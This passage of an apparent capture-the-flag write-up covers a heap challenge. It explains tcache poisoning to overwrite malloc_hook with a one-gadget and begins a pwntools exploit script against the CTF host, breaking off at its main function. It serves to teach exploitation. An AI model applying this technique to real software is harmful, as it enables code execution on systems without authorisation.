 - if chunk size < 0x420 -> go tcache, else go unsorted bin
- if tcache full -> go fastbin if small enough, else: go unsorted bin

7. Tcache Poisoning

```python
create_note(p,0x410,p64(0) + p64(0x101) + p64(malloc_hook)) # 6
```

- Overwrite fwd pointer of the tcache chunk with the malloc_hook

8. Replace `malloc_hook` with the one gadget

```python
create_note(p,0xf0,'') # 7
create_note(p,0xf0,p64(gadget)) # 8
```

9. Trigger the one gadget by calling `malloc`

```python
p.sendline(b"1")
p.sendline(b"1")
```

10. Full script!

```python
from pwn import *
host, port = 'n0tes.ctf.bsidestlv.com',9999

def conn():
    p = remote(host,port)
    return p

next_note_index = 0
libc = ELF("./libc-2.31.so")
main_arena = 0x1ecbe0
one_gadget = 0xe3b01
__malloc_hook = 2018160
def create_note(p,size, value):
    global next_note_index
    assert len(value) <= size
    p.sendline(b"1")
    p.sendlineafter(b"Size: ", str(size).encode())
    p.sendlineafter(b"Data: ", value)
    print(p.recvline())
    p.recvuntil(b"> ")
    result = next_note_index
    next_note_index += 1
    return result

def delete_note(p,idx):
    p.sendline(b"3")
    p.sendlineafter(b"Note id: ", str(idx).encode())
    print(p.recvline())
    p.recvuntil(b"> ")

def view_note(p,idx):
    p.sendline(b"2")
    p.sendlineafter(b"id: ", str(idx).encode())
    res = p.recvuntil(b"> ")
    end = res.find(b"1. Add")
    starting = b'Data: '
    start = res.find(starting)
    note = res[start + len(starting):end-1]
    return u64(note +b"\x00\x00")

def main():
```